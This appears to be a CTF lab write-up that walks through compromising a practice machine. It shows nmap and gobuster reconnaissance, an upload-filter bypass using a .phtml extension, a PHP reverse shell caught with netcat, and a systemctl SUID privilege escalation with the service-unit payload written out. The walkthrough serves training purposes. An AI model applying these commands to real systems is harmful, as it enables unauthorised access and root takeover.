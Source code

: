 #CTF
Nothing is displayed here for me so lelt's get right into it!

## Recon

The room is very helpful and suggests we run  [[Nmap]] with:
`nmap -sV [ip]`
And we get:

```
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 02:25:29:0E:72:4B (Unknown)
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Just for the fun of ( and maybe we will need it later) , i will run it again with `--script=vuln`
```
| smb-vuln-regsvc-dos: 
|   VULNERABLE:
|   Service regsvc in Microsoft Windows systems vulnerable to denial of service
|     State: VULNERABLE
|       The service regsvc in Microsoft Windows 2000 systems is vulnerable to denial of service caused by a null deference
|       pointer. This script will crash the service if it is vulnerable. This vulnerability was discovered by Ron Bowes
|       while working on smb-enum-sessions.
|          
```


## [[Gobuster]]

For Nmap we saw that there is a http server, so we will use Gobuster to locate the subdirectories
`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -u http://[ip]:[port of http]`
And we get: 
```
/images (Status: 301)
/js (Status: 301)
/css (Status: 301)
/internal (Status: 301)
```


## Attack

We head to /internal page and we are greeted with an upload form.
We would love to upload a reverse shell but .php files are blocked.
To find out what extensions are allowed we will use [[Burpsuite]].
First we open Burpsuite and start capturing trafiic, then on the browser we start the extension and we upload a file. We submit and capture the request. We send it on Intruder and we analize.
We want to find what extension to use so we add brackets there:
![](https://i.imgur.com/6dxnzq6.png)

On the payloads we upload a file with many php extensions 
![](https://i.imgur.com/ED153Nx.png)

The valid extension is .phtml!

Now we need to download a reverse shell and we can find one here https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

We edit the file and change the IP with our local.
Then we change the extension fron .php to .phtml
Next we upload the the reverse shell via the form and head to /internal/uploads and we can see our file.

Before we click it we need to open a [[Introductory Networking#Netcat]] connection with
`nc -lvnp 1234`
Then we click our file and Netcat caught the connection!

We look around and we see that the user's name is Bill and inside their directory we find a flag!

## Privilege Escalation

 Next we need to become super user!
 We will go about it with SUID (**set owner userId upon execution**)
 We have to seach for all the files with SUID with
 `find / -user root -perm -4000 -exec ls -ldb {} \;`
 We look around and we spot a curius file named
 `/bin/systemctl` that maybe we have access to.
 After some searching on the internet I found this on
 ```
TF=$(mktemp).service  
echo '[Service]  
Type=oneshot  
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"  
[Install]  
WantedBy=multi-user.target' > $TF  
./systemctl link $TF  
./systemctl enable --now $TF
```

Which outputs the content in the /tmp/output file. To gain access we have to change this line
`ExecStart=/bin/sh -c “chmod +s /bin/bash”`
And we are in!

